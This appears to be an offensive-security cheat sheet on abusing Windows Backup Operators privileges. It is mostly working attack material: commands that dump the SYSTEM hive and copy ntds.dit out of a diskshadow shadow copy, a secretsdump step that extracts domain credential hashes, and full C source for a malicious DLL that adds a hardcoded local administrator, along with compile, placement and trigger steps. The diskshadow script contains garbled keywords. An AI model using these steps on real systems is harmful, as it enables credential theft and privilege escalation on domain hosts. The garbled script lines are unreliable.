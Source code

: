 # diskshadow/robocopy

1. Grab SYSTEM
```bash
reg save HKLM\SYSTEM C:\TEMP\Documents\SYSTEM
```

2. Create shadowcopy.txt
```bash
→ cat shadowscript.txt
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

3. execute the script with diskshadow
```bash
diskshadow /s shadowscript.txt
```

4. copy
```bash
cd C:\TEMP
robocopy /B z:\Windows\ntds .\new_ntds ntds.dit
```

5. secretsdump(on Kali linux)
```bash
impacket-secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

# diskshadow/Copy-FileSeBackupPrivilege
1,2,3,5 same as above method
4. An alternate way to copy files from the shadow drive Z:\ is by uploading SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll from SeBackupPrivilege repo and importing them to our session: https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug

```bash
> Import-Module .\SeBackupPrivilegeUtils.dll
> Import-Module .\SeBackupPrivilegeCmdLets.dll
> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\TEMP\ntds.dit
```

# DLL Hijack
Since the user is an member of Backup Operator Group, the user is allowed to write files anywhere on the system.
For DLL hijacking, the malicious windowscoredeviceinfo.dll(create a new user with credentials coldfusion:c0!dfusion and add it to local administrators group) will be created by using the following code:

1. Create dll
```bash
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users coldfusion c0!dfusion /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators coldfusion /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

2. Compiling the dll on Kali linux:
```bash
x86_64-w64-mingw32-gcc dllhijack.c -shared -o windowscoredeviceinfo.dll
```

3. UsoDllLoader.exe can be downloaded from here: https://github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824

4. copy windowscoredeviceinfo.dll from C:\temp\ to c:\windows\system32
```bash
robocopy /b dll c:\windows\system32 windowscoredeviceinfo.dll
```

5. Trigger dll
```bash
.\UsoDllLoader.exe
```

6. We can see new user coldfusion has been created with local administrator privileges
